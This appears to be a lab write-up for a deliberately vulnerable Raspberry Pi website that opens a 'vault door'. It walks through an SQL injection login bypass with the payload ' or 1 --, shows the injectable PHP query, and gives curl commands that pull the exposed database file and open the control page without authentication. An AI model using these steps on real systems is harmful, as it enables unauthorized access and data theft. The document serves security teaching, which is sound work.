 # Vulnerable Website Attacks

This section explores SQL Injection and Broken Access Control attacks on the vulnerable website, highlighting weaknesses in authentication and access control mechanisms.

### SQL Injection

To perform the SQL Injection attack on the vulnerable website, follow these steps:

1. Connect to the IP address of the Raspberry Pi (in our case, 10.10.1.231) on port 51130.

2. On the login page, follow these instructions:

   - In the "Username" field, enter the following string:
     ```
     ' or 1 --
     ```
   - Leave the "Password" field empty or enter any value.

3. Submit the login form. The SQL Injection payload `' or 1 --` manipulates the underlying SQL query, bypassing the authentication mechanism and tricks the system into authenticating the user successfully.

4. Behind the scenes, the vulnerable code snippet executes the following query:

   ```php
   $id = $_POST['id'];
   $pw = $_POST['pw'];
   $query = "SELECT id FROM user WHERE id = '{$id}' AND pw = '{$pw}'";
   $result = $db->query($query);
   if ($result == false) {
       $txt = "Login Error";
   } else {
       print("Login Successful");
   }
    ```

    The vulnerability lies in the way the code constructs the SQL query. By injecting the payload `' or 1 --`, the SQL statement becomes:

   ```php
    $query = "SELECT id FROM user WHERE id = '' or 1 -- AND pw = '{$pw}'";
    ```

    The modified query includes the injected condition `or 1`, which always evaluates to true. As a result, the authentication check is bypassed, and the system considers the login successful. Upon successful login, the vulnerable website redirects the attacker to the `control.php` page, granting them access to open the vault door.

### Broken Access Control

To exploit the Broken Access Control vulnerability in the vulnerable website, follow these steps:

#### Access to Database Directory

1. The directory structure of the vulnerable website is as follows:

    ```bash
    ├── db
    │ └── db.sql
    ├── control.php
    ├── css.css
    ├── dbconn.php
    ├── index.php
    ├── jquery-2.2.4.min.js
    └── js.js
    ```


2. Perform the following command to obtain the database file:

    ```bash
    curl http://10.10.1.231:51130/__db__/db.sql --output db.sql
    ```

    This command downloads the `db.sql` file from the `__db__` directory.

3. Once the db.sql file is obtained, execute the following command to print the content of the database:

    ```sql
    sqlite3 db.sql "SELECT * FROM user"
    ```

    This command uses SQLite to query and retrieve the data from the user table within the obtained database file.

#### Lack of Session Management

1. In addition to the access to the database directory, there is a lack of Session Management for accessing the `control.php` page. This means that even without authenticating, a malicious user can still access the page.

    To highlight this, execute the following command (or perform the action in a web browser):

    ```bash
    curl http://10.10.1.231:51130/control.php
    ```

    This command accesses the `control.php` page without authentication, demonstrating the lack of proper session management. It allows unauthorized access to the web page.

    **Note:** Tools like DirBuster can be used to discover hidden files or directories, but they are not specifically related to this vulnerability.